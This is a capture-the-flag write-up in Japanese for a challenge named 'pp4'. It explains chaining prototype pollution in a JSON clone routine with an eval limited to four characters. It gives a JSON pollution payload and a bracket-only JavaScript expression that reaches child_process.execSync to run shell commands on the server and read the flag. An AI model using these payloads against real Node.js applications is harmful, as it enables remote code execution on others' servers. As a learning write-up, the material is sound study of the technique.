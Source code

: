 # pp4
入力したJSONをクローンする処理とその後、入力された文字列をevalする処理があるアプリケーション。

入力したJSONをクローンする処理の部分ではPrototype Pollutionが発生する。また、入力された文字列をevalする処理では、文字種が4種類のみの制限がある。

まず任意の文字列を実行できるコードとして次のようなものが存在する。
```javascript
[]["filter"]["constructor"]( "CODE" )()
```

このうち、`[]()`以外の文字列部分（ `"` で囲まれた部分）をPrototype Pollutionを利用して得ることを考える。

次のようなJSONをパースさせると、`[]`のみを利用して、上記の文字列部分を得られることを利用する。
```json
{
  "__proto__": {
    "": "a",
    "a": "b",
    "b": "c",
    "c": {
      "a": "filter",
      "b": "constructor",
      "c": "return global.process.mainModule.constructor._load(`child_process`).execSync(`ls /`).toString()"
    }
  }
}
```
つまり、 `"filter"` を得るには下記の手順となる。
1. `[][[]]` で `"a"`を得る。
2. `[][[][[]]]` ( `[]["a"]` ) で `"b"` を得る。
2. `[][[][[][[]]]]` ( `[]["b"]` ) で `"c"` を得る。
2. `[][[][[][[][[]]]]][[][[]]]` ( `[]["c"]["a"]` ) で `"filter"` を得る。

他の文字列部分も同様にすれば、下記の4種類の文字のみで `child_process.execSync()` を実行できる。

```js
[][[][[][[][[][[[]]]]]][[][[]]]][[][[][[][[][[]]]]][[][[][[]]]]]([][[][[][[][[]]]]][[][[][[][[]]]]])()
```

上記で `ls /` でフラグのファイル名を読み取り、 `cat /flag-1863aa693df962ff8433c6b227d63dc0.txt` としてフラグを読み取ることができた。